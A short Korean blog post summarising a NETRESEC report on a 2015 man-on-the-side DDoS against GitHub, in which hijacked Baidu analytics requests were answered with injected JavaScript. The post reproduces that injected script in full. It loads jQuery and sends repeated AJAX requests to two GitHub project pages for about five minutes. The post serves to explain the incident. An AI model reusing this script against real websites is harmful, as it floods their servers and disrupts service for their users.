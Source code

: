 ```yaml
---
layout: post
title: "China's Man-on-the-Side Attack on GitHub"
date: 2015-04-06 17:08:17 +0900
comments: true
categories: 
---
```


NETRESEC 블로그에 올라온 글. 중국이 GitHub 에 정치적인 목적으로 DDoS 를 가했다고. 
중국정부인지 해커인지는 모르겠지만 China Unicom 에 설치된 packet injector 에서 baidu 에서 호스팅하는 web analytics 의 js 를 요청하는 http 를 hijack 해서 ddos 를 가하는 js 를 인젝트했다고 한다. 

`2E3 == 2000` 이니까 2 초마다 `https://github.com/greatfire` 와 `https://github.com/cn-nytimes` 중에 하나를 골라서 AJAX 로 request 한다.

* [NETRESEC Blog](http://www.netresec.com/?page=Blog&month=2015-03&post=China%27s-Man-on-the-Side-Attack-on-GitHub)

``` javascript 인젝트된 코드
document.write("<script src='http://libs.baidu.com/jquery/2.0.0/jquery.min.js'>\x3c/script>");
!window.jQuery && document.write("<script src='http://code.jquery.com/jquery-latest.js'>\x3c/script>");
startime = (new Date).getTime();
var count = 0;

function unixtime() {
    var a = new Date;
    return Date.UTC(a.getFullYear(), a.getMonth(), a.getDay(), a.getHours(), a.getMinutes(), a.getSeconds()) / 1E3
}
url_array = ["https://github.com/greatfire", "https://github.com/cn-nytimes"];
NUM = url_array.length;

function r_send2() {
    var a = unixtime() % NUM;
    get(url_array[a])
}

function get(a) {
    var b;
    $.ajax({
        url: a,
        dataType: "script",
        timeout: 1E4,
        cache: !0,
        beforeSend: function() {
            requestTime = (new Date).getTime()
        },
        complete: function() {
            responseTime = (new Date).getTime();
            b = Math.floor(responseTime - requestTime);
            3E5 > responseTime - startime && (r_send(b), count += 1)
        }
    })
}

function r_send(a) {
    setTimeout("r_send2()", a)
}
setTimeout("r_send2()", 2E3);
```
